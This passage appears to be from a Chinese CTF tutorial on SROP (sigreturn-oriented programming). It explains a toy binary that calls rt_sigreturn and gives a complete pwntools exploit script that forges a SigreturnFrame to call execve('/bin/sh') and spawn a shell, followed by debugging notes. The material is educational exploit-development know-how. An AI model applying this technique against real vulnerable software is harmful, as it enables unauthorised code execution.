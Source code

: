 > cmp     rax, 0F8h中的0xF8具有特殊含义，即ucontext_t结构体的大小
>

这个程序的流程很简单，首先调用了通过syscall调用read函数将我们输入的内容保存到全局变量global_buf中【char global_buf[512](0x200)】，然后在校验了长度之后syscall了rt_sigreturn；因为这里这里需要使用pwntools进行攻击，所以我们先通过这道题的exp来了解一下：

```python
#!/usr/bin/python2
# -*- coding:utf-8 -*-

from pwn import *

context.arch = "amd64"
# context.log_level = "debug"
elf = ELF('./srop')
sh = process('./srop')

# 生成调试文件
try:
    f = open('pid', 'w')
    f.write(str(proc.pidof(sh)[0]))
    f.close()
except Exception as e:
    print(e)

str_bin_sh_offset = 0x100

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = elf.symbols['global_buf'] + str_bin_sh_offset
frame.rsi = 0
frame.rdx = 0
frame.rip = elf.symbols['syscall']

# pause()
gdb.attach(sh)
sh.send(str(frame).ljust(str_bin_sh_offset, 'a') + '/bin/sh\x00')

sh.interactive()

# 删除调试文件
os.system("rm -f pid")
```

我们在如上代码框中的地方下断点，然后运行调试，可以来到：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1622452667957-b01efc5a-85b1-4c93-acaf-f83936901326.png)

之前我们说过，当调用rt_sigreturn后会将栈中的内容pop到寄存器中，rt_sigreturn前的stack状况如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1622452791270-aed290b2-a065-4253-a232-a64e845a4ce4.png)
